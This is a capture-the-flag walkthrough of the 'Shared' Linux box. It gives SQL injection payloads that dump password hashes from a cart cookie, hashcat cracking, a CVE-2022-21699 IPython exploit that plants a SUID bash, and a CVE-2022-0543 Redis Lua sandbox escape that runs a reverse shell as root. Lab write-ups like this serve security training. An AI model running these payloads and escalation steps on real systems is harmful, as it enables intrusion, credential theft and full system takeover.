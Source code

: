 # Shared
### Medium linux box

##### Start with an nmap scan:
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FvunymQaGuIELhAVfpFNU%2Fnmapscan.jpg?alt=media&token=36d6168c-845f-4150-be68-ecfc1a51dd68 "nmap results")

##### Visit port 80 and navigate to the checkout page. There's a URL encoded cookie named `custom_cart=`. Decode the cookie and note it's format: `<Item>:<Quantity>`

##### The cookie ended up being vulnerable to SQLi. Portswigger's sqli courses helped a lot here. URL encode the payload.

#### `' UNION SELECT 1 -- -` No values
#### `' UNION SELECT 1,2 -- -` No values
#### `' UNION SELECT 1,2,3 -- -` Values are reflected!
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiMA8il58YnoiSfSBNhwv%2FBURPCOOKIESQL.jpg?alt=media&token=ca2f7673-855a-4e73-9e13-626d989795d6)

### SQLi payloads:
##### Find current database:
#### `' UNION SELECT 1,database(),3 -- -`
##### Get tables in checkout database:
#### `'UNION SELECT 1,group_concat(table_name),3 from information_schema.tables WHERE table_schema='checkout' -- -`
##### Enumerate columns in user table from the checkout database:
#### `' UNION SELECT 1,group_concat(column_name),3 from information_schema.tables WHERE table_schema='user' -- -`
##### Get values from the user table:
#### `' UNION SELECT 1,group_concat(id, ':', password),3 from checkout.user -- -`

##### Finally, we get a hash that we can crack! I used hashcat
#### `hashcat -a -0 -m -0 <hash> <wordlist>`

##### ssh into the james_mason account with the cracked password

### Privilege Escalation
##### Transfer pspy64 and linpeas to the machine to see running processes and find sensitive files.
##### We find ipython and an interesting file, `/opt/scripts_review`. It reveals a cronjob being every minute by `dan_smith`
```bash
/bin/sh -c
/usr/bin/pkill ipython;
cd opt/scripts review/ && /usr/local/bin/ipython
```
##### Looking more into ipython, I found CVE-2022-21699. "Arbitrary code execution vulnerability in IPython that stems from IPython executing untrusted files in CWD. This vulnerability allows one user to run code as another"
#####   1. Based on the cronjob ipython is executed at `/opt/scripts_review` directory where we have write access
#####   2. We have to create `/opt/scriptsreview/profile_default` and `opt/scripts_review/profile_default/startup`
#####   3. Create a python script to set `dan_smith` SUID bit to `/bin/bash` for us to escalate priveleges at `/opt/scripts_review/profile_default/startup`
#### Make ascript that creates a directory and another python script that executes `script.sh`
```bash
james_mason@shared:/tmp$ cat script.sh
mkdir -m 777 /opt/scripts_review/profile_default
mkdir -m 777 /opt/scripts_review/profile_default/startup
echo 'import os; os.system("cp /bin/bash /tmp/danbash; chmod u+s /tmp/danbash")' > /opt/scripts_review/profile_default/startup/foo.py
james_mason@shared: /tmp$ chmod +x script.sh
james_mason@shared: /tmp$ ./script.sh
```
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FiHCOT3FpQ65fr8Iq6a5t%2Fimage.png?alt=media&token=188fb7a8-1648-49d5-bfdd-b4b9e7dc80cb "script.sh")

##### Keep running `script.sh` because there's a cronjob running as root that deletes everything in `scripts_review`. Wait for the cronjob to execute and create `danbash`. Then execute `danbash`

```bash
james_mason@shared: /tmp$ ./danbash -p
```
##### From there you can copy the ssh key for `dan_smith` and ssh into the account for a better shell
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2FRENhkyRf5bpOe4mSigPK%2Fimage.png?alt=media&token=d22f0e92-ee4f-48ae-bfa5-dd01ac9eb785 "id_rsa")

### Redis Lua Sandbox Escape and RCE to get root
##### Upload and run linpeas and you'll find a readable file in `/usr/local/bin/redis_connector_dev`
##### It's a ELF file, when executed it connects to `redis-cli` using a password. It will then execute an `INFO` command
##### Transfer `redis_connector_dev` to your machine. Run a nc listener and you should get a password

##### Helpful guide to the exploit below
[redis exploit](https://github.com/vulhub/vulhub/blob/master/redis/CVE-2022-0543/README.md)


##### Due to a packaging issue on Debian/Ubuntu, a remote attacker with the ability to execute arbitrary Lua scripts could escape the Lue sandbox and execute arbitrary code on the host

##### Authenticate and connect to `redis-cli` Use the command `AUTH <password>` and execute the command again. Write a reverse shell to run from the server.
![alt-text](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FsixO74ZQmWWjbatdV7WQ%2Fuploads%2F0cOyfwWEIdhYqzkPVu3f%2Fimage.png?alt=media&token=203448cb-a4c6-48a0-a8e9-02ee9e3f0a6c "python reverse shell")

##### Start a nc listener and run the reverse shell to get a shell as root
```bash
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("python3 /home/dan_smith/shell.py", "r"); local res = f:read("*a"); f:close(); return res' 0 
```





